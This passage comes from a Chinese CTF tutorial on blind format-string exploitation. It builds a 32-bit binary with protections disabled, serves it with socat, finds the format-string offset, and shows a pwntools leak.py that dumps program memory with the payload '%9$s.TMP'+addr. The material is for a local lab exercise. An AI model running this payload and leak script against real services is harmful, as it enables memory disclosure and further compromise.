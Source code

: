 gcc 编译 32 位程序

```plain
gcc -z execstack -fno-stack-protector -m32 -o leakmemory leakmemory.c
```

利用 socat 本地起环境，真实环境就是只有一个交互环境，不给你可执行文件。

```plain
socat TCP4-LISTEN:11112,fork EXEC:./pwn
```

[![](assets/1701612281-4cf0828081928f7ff3b69d1df8eebdd9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224042-12a5e8f8-2579-1.png)

这里经过测试，发现是**32 位**程序，而且漏洞点在输入`Do you want the flag?`，格式化字符串**偏移为 7**

(TIPS:32 位可以先进行 4 字节的填充，64 字节可以先进行 8 字节的填充，便于观察偏移量)

[![](assets/1701612281-dc7fe6d8f68271ceaac930173dae62ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224046-14a88462-2579-1.png)

```plain
aaaa->0x61616161
```

接下来就是要 dump 程序了

dump 程序，也就是想获取我们所给定地址的内容，而不是获取我们给定的地址。所以应该用 **%n$s** 把我们给定地址当作指针，输出给定地址所指向的字符串。结合前面知道格式化字符串偏移为 7，payload 应该为：`%9$s.TMP[addr]`

(这里其实和 fmtstr3 一样的逻辑，小端序程序，在低地址又多写入了 2 个参数，一个是分隔符.tmp 字符串，一个是返回地址，相当于又抬高了栈，所以偏移为 9)

**注意**：使用 %s 进行输出并不是一个字节一个字节输出，而是一直输出直到遇到 \\x00 截止符才会停止，也就是每次泄露的长度是不确定的，可能很长也可能是空。因为 .text 段很可能有连续 \\x00，所以泄露脚本处理情况有：

1.  针对每次泄露长度不等，addr 根据每次泄露长度动态增加；
2.  泄露字符串可能为空，也就是如何处理 \\x00；

接下来就是要泄露程序的初始地址

###### 方法一：**从程序加载地址开始**

32 位：从 0x8048000 开始泄露

64 位：从 0x400000 开始泄露

leak.py

```plain
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',11112)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    #使用 binascii 将泄漏出来字符串每一个都从 ascii 转换为 十六进制，方便显示
    remain = r.recvrepeat(0.2)
    #r.recvrepeat(0.2) 接受返回的垃圾数据，方便下一轮的输入
    return ret
```